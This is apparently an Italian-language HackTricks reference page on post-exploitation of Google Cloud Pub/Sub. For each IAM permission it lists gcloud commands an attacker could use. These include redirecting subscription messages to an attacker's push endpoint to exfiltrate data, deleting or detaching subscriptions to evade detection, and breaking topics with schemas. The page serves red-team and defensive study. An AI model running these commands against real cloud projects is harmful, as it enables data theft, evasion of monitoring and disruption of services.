 # GCP - Post Esploitation di Pub/Sub

<details>

<summary><strong>Impara l'hacking su AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team di HackTricks su AWS)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>

## Pub/Sub

Per ulteriori informazioni su Pub/Sub, controlla la seguente pagina:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Pubblica un messaggio in un topic, utile per **inviare dati inaspettati** e attivare funzionalità inaspettate o sfruttare vulnerabilità:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Utile per impedire a una sottoscrizione di ricevere messaggi, forse per evitare la rilevazione.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Utile per impedire a una sottoscrizione di ricevere messaggi, forse per evitare rilevamenti.\
È possibile eliminare un argomento anche se ci sono sottoscrizioni ad esso collegate.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Usa questo permesso per aggiornare alcune impostazioni del topic per interromperlo, come `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Concediti il permesso di eseguire uno qualsiasi degli attacchi precedenti.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Ottieni tutti i messaggi in un server web:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Crea una sottoscrizione e usala per **recuperare i messaggi**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Eliminare una sottoscrizione** potrebbe essere utile per interrompere un sistema di elaborazione dei log o qualcosa di simile:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Utilizza questo permesso per aggiornare alcune impostazioni in modo che i messaggi vengano memorizzati in un luogo a cui puoi accedere (URL, tabella Big Query, Bucket) o semplicemente per interromperlo.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Concediti i permessi necessari per eseguire uno qualsiasi degli attacchi precedentemente commentati.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Attacca uno schema a un topic in modo che i messaggi non lo rispettino e quindi il topic venga interrotto.\
Se non ci sono schemi potresti doverne creare uno.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Questo potrebbe sembrare come l'eliminazione di uno schema che ti consentirà di inviare messaggi che non rispettano lo schema. Tuttavia, poiché lo schema verrà eliminato, nessun messaggio entrerà effettivamente nel topic. Quindi questo è **INUTILE**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Concediti i permessi necessari per eseguire uno qualsiasi degli attacchi precedentemente commentati.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Questo creerà uno snapshot di tutti i messaggi non confermati e li rimetterà nella sottoscrizione. Non molto utile per un attaccante ma eccolo qui:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team AWS di HackTricks)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
